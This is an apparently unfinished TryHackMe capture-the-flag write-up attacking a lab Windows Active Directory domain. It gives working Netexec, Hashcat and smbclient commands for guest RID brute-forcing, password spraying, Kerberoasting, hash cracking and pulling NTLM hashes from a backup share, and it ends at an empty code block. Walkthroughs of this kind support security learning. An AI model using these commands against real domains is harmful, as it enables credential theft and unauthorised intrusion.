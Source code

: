 # URL
https://tryhackme.com/room/soupedecode01
# Port scanning
There's all the typical Windows AD ports open, and some extra ones for the DC:
* 53, 88, 139, 445, and a bunch of stuff on the 40000 range
* the services we need to pay attention to are, Kerberos, SMB, LDAP
# Initial Access
* we scan the box with Netexec to find out if the guest account is enabled or not:
```
nxc smb <IP_ADDRESS> -u 'guest' -p ''
```
* we learn that the guest account is enabled, so we check for users, using the rid-brute method
```
nxc smb <IP_ADDRESS> -u 'guest' -p '' --rid-brute > userglob.txt
```
* we format that userglob file with the following command
```
cat userglob.txt | cut -d '\' -f 2 | cut -d '(' -f 1 | tr -d ' ' > users.txt
```
* After we have our users.txt file, we can password spray using the usernames as the passwords:
```
nxc smb <IP_ADDRESS> -u users.txt -p users.txt --continue-on-success --no-bruteforce | grep -v -i "guest" | grep -e "+"
```
* from the output, we are able to enumerate one valid domain user, `ybob317:ybob317`
* this is a domain user, so we can attempt Kerberoasting, which could give us the password hashes for service accounts:
```
nxc ldap <IP_ADDRESS> -u 'ybob317' -p 'ybob317' --kerberoasting output.txt
```
* We successfully Kerberoast and get serveral service account password hashes. We can crack them using Hashcat with this command
```
hashcat -m13100 output.txt /usr/share/wordlists/rockyou.txt
```
* we manage to capture the password for the `file_svc` account, which is `Password123!!`. We can enumerate this user's fileshares on SMB
```
nxc smb <IP_ADDRESS> -u 'file_svc' -p 'Password123!!' --shares
```
* we see that this user has access to the `backup` file share, so we can use Smbclient to login as that user and see what's in there
```
smbclient //<IP_ADDRESS>/backup -U 'file_svc'
```
* There's a file in the share with a bunch of service accounts and NTLM hashes
* We can use the following commands to create a user list and hashes list from that file:
```
cat backup_extract.txt | cut -d ":" -f 1 > service_users.txt
cat backup_extract.txt | cut -d ":" -f 4 > ntlm_hashes.txt
```
* after that, we can do a password spray with the service users and the ntlm hashes
```

```
# Privilege Escalation
